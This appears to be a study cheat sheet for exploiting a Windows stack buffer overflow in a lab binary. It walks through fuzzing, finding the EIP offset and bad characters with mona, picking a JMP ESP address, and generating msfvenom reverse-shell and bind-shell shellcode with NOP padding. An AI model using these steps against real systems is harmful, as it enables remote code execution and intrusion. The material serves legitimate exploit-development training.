










Buffer Overflow - Windows

run fuzzer.py and get the largest value of crash



generate cyclic pattern to find offset to EIP register
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
```

copy cyclic pattern to payload variable and run script

run script > program crash

run mona command to calculate offset 

```
!mona findmsp -distance 2000
```



edit script
```
offset = 1978
retn = "BBBB"
```
generate bad chars with script

put bad chars into payload and run

after program crash run mona commands

```
!mona config -set workingfolder c:\mona\%p
!mona bytearray -b "\x00"
```

put value of ESP register here



the path "oscp" is the name of the binary

```
!mona compare -f C:\mona\oscp\bytearray.bin -a 0181FA30
```



00 always bad char
move to next bad char - ignore the next char if sequential
move to next bad char - ignore the next char if sequential
etc ...

find return address
```
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
```
can use any return address here



example

```
#shown on mona
0x625011d3

#first reverse it
d3115062

#then write as bytes
\xd3\x11\x50\x62

#add to script
retn = "\xd3\x11\x50\x62"
```

generate payload
```
#reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.46.252 LPORT=443 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c

#bind shell
msfvenom -p windows/shell_bind_tcp RHOST=10.10.78.186 LPORT=9000 EXITFUNC=thread -b "\x00\x01\x02\x03\x23\x3c\x83\xba" -f c
```
add to payload



Prepend NOPs
```
padding = "\x90" * 16
```

run exploit



reverse shell example



bind shell example



